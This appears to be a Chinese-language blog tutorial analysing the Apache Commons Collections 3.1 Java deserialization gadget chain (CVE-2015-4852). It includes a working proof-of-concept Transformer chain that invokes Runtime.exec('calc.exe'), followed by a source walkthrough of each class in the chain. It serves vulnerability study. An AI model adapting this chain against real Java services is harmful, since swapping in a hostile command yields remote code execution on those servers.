




## 简介
Commons Collections的利用链也被称为cc链，在学习反序列化漏洞必不可少的一个部分。Apache Commons Collections是Java中应用广泛的一个库，包括Weblogic、JBoss、WebSphere、Jenkins等知名大型Java应用都使用了这个库。
了解反射机制的话，我们会发现若存在一个固有的反射机制时，输入可控，就可能形成任意函数调用的情况，具有极大的危害。但实际上真的有存在这种情况：这就是commons-collections-3.1 jar包，cve编号：cve-2015-4852
在开始之前我们需要理一下反序列化漏洞的攻击流程：

1. 客户端构造payload(有效载荷)，并进行一层层的封装，完成最后的exp（exploit-利用代码）
2. exp发送到服务端，进入一个服务端自主复写（也可能是也有组件复写）的readobject函数，它会反序列化恢复我们构造的exp去形成一个恶意的数据格式exp_1（剥去第一层）
3. 这个恶意数据exp_1在接下来的处理流程(可能是在自主复写的readobject中、也可能是在外面的逻辑中)，会执行一个exp_1这个恶意数据类的一个方法，在方法中会根据exp_1的内容进行函数处理，从而一层层地剥去（或者说变形、解析）我们exp_1变成exp_2、exp_3......
4. 最后在一个可执行任意命令的函数中执行最后的payload，完成远程代码执行。

那么以上大概可以分成三个主要部分：

1. payload：需要让服务端执行的语句：比如说弹计算器还是执行远程访问等；我把它称为：payload
2. 反序列化利用链：服务端中存在的反序列化利用链，会一层层拨开我们的exp，最后执行payload。(在此篇中就是commons-collections利用链)
3. readObject复写利用点：服务端中存在的可以与我们漏洞链相接的并且可以从外部访问的readObject函数复写点；我把它称为readObject复写利用点（自创名称...）
## commons-collections-3.1
首先来看看[commons-collections项目](http://commons.apache.org/proper/commons-collections/index.html)吧
官网第一段：
> Java commons-collections是JDK 1.2中的一个主要新增部分。它添加了许多强大的数据结构，可以加速大多数重要Java应用程序的开发。从那时起，它已经成为Java中公认的集合处理标准。

Apache Commons Collections是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强有力的数据结构类型并且实现了各种集合工具类。作为Apache开源项目的重要组件，Commons Collections被广泛应用于各种Java应用的开发。
它是一个基础数据结构包，同时封装了很多功能，其中我们需要关注一个功能：
> - Transforming decorators that alter each object as it is added to the collection
> - 转化装饰器：修改每一个添加到collection中的object

Commons Collections实现了一个TransformedMap类，该类是对Java标准数据结构Map接口的一个扩展。该类可以在一个元素被加入到集合内时，自动对该元素进行特定的修饰变换，具体的变换逻辑由Transformer类定义，Transformer在TransformedMap实例化时作为参数传入。
`org.apache.commons.collections.Transformer`这个类可以满足固定的类型转化需求，其转化函数可以自定义实现，我们的漏洞触发函数就是在于这个点。
漏洞复现需要下载3.1版本源码[3.1版本的下载地址](https://archive.apache.org/dist/commons/collections/),进去寻觅一下源码和jar包都有。
由于没有找到漏洞版本3.1的api说明，我们可以参考[3.2.2的api文档](http://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/index.html)
首先创建一个项目，将已下载的`Commons-Collections-3.1.jar`  导入到项目中，如下所示

## POC分析
这里是[啦啦0咯咯](https://xz.aliyun.com/t/7031) 大哥提供的poc，在导入了`Commons-Collections-3.1.jar`的包之后，就能执行成功了
```java
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };

        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        //触发漏洞
        Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
        //outerMap后一串东西，其实就是获取这个map的第一个键值对（value,value）；然后转化成Map.Entry形式，这是map的键值对数据格式
        onlyElement.setValue("foobar");
    }
}
```
执行效果如下
```java
Runtime.getRuntime().exec("calc.exe");
```


以上代码包含了三要素中的前两项：

1. payload
2. 反序列化链

为什么没有readObject复写利用点？
这个poc的复写利用点是`sun.reflect.annotation.AnnotationInvocationHandler`的`readObject()` 但是我们先精简payload和利用链，最后再加上readObject复写点
### 调试
调试以上poc，得到两种调用栈






#### Map.Entry
Map.Entry 其实就是键值对的数据格式，其中setValue函数如下
```java
// AbstractInputCheckedMapDecorator.class
public Object setValue(Object value) {
    value = this.parent.checkSetValue(value);
    return super.entry.setValue(value);
}
```
#### TransformedMap
TransformedMap是一种重写map类型的set函数和Map.Entry类型的setValue函数去调用转换链的Map类型。
```java
// TransformedMap.class
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
}
```
首先看他的构造函数，所对应实例化outerMap，`Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);`
其中对应的如下函数对应的`this.valueTransformer` 就是传入的`transformerChain`，而transformerChain 就是定义的transformers数组
```java
// TransformedMap.class
protected Object checkSetValue(Object value) {
    return this.valueTransformer.transform(value);
}
```
#### ChainedTransformer.class
由于TransformedMap具有commons_collections的转变特性，当赋值一个键值对的时候会自动对输入值进行预设的Transformer的调用。
```java
// ChainedTransformer.class
public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        //循环进入此处，先进入1次ConstantTransformer.class，再3次InvokerTransformer.class
        object = this.iTransformers[i].transform(object);
        //另外需要注意在数组的循环中，前一次transform函数的返回值，会作为下一次transform函数的object参数输入。
    }

    return object;
}
```
`transform()`函数是一个接口函数，在上面的循环中进入了不同的函数
#### ConstantTransformer.class
```java
// ConstantTransformer.class
public Object transform(Object input) {
    return this.iConstant;
}
```
#### InvokerTransformer.class
再是进入了InvokerTransformer.class，看到这个就会发现有点东西了
```java
// InvokerTransformer.class
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```
很明显的反射机制，可见**InvokerTransformer**就是我们的触发任意代码执行处，我们看看源码中的文件描述
先看看我们需要关注的**InvokerTransformer**类的描述（在jar包中是找不到描述信息的，可以通过下载[官方源码](https://www-us.apache.org/dist//commons/collections/)得到）：



我们可以这里有经典的反射机制调用，在细节分析前我们先整理一下调用栈，但不需要很理解。

```java
Map.Entry 类型setValue("foobar")
=> AbstracInputCheckedMapDecorator.setValue()
=> TransformedMap.checkSetValue()
=> ChainedTransformer.transform(Object object)
    根据数组，先进入 => ConstantTransformer.transform(Object input)
    再进入 => InvokerTransformer.transform(Object input)
```
## 参考链接
[https://xz.aliyun.com/t/7031#toc-8](https://xz.aliyun.com/t/7031#toc-8)


